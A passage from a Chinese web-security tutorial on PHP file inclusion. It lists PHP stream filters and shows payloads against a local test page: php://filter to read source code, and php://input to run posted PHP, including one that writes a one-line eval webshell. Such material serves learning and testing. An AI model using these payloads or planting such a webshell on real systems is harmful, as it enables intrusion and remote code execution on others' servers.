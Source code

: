 - **可用的过滤器列表（4类）**

  此处列举主要的过滤器类型，详细内容请参考：https://www.php.net/manual/zh/filters.php

  | 字符串过滤器      | 作用                                        |
  | ----------------- | ------------------------------------------- |
  | string.rot13      | 等同于`str_rot13()`，rot13变换              |
  | string.toupper    | 等同于`strtoupper()`，转大写字母            |
  | string.tolower    | 等同于`strtolower()`，转小写字母            |
  | string.strip_tags | 等同于`strip_tags()`，去除html、PHP语言标签 |

  | 转换过滤器                                                   | 作用                                                       |
  | ------------------------------------------------------------ | ---------------------------------------------------------- |
  | convert.base64-encode & convert.base64-decode                | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
  | convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码             |

  | 压缩过滤器                        | 作用                                                         |
  | --------------------------------- | ------------------------------------------------------------ |
  | zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
  | bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。              |

  | 加密过滤器 | 作用                   |
  | ---------- | ---------------------- |
  | mcrypt.*   | libmcrypt 对称加密算法 |
  | mdecrypt.* | libmcrypt 对称解密算法 |

- **示例**：

  1. `php://filter/read=convert.base64-encode/resource=[文件名]`读取文件源码（针对php文件需要base64编码）

     ```
     http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBf)

  2. `php://input + [POST DATA]`执行php代码

     ```
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php phpinfo(); ?>
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBh)

     若有写入权限，写入一句话木马

     ```
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
     ```
